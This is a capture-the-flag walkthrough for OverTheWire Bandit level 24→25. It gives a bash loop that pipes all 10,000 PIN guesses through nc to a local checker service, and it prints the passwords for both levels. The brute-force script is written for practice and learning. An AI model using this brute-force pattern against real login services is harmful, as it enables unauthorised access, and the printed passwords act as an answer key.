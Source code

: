# Bandit Level 24 → 25

## Objective
Brute-force a PIN to retrieve the password for `bandit25`.

## Solution
Create and run a brute-force script:

1. Create directory: `mkdir /tmp/brute`
2. Change directory: `cd /tmp/brute`
3. Create script:
   ```bash
   #!/bin/bash
   passwd24=gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
   for i in {0000..9999}; do
       echo "$passwd24 $i"
   done | nc localhost 30002 | grep -v Wrong | grep -v "I am the pincode checker for user bandit25"
   ```
   Or alternative:
   ```bash
   #!/bin/bash
   for i in {0000..9999}; do
       echo "passwordforbandit24 $i"
   done | nc localhost 30002 | uniq -u
   ```
4. Set permissions: `chmod +x script.sh`
5. Run: `./script.sh`

## Password for bandit25
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4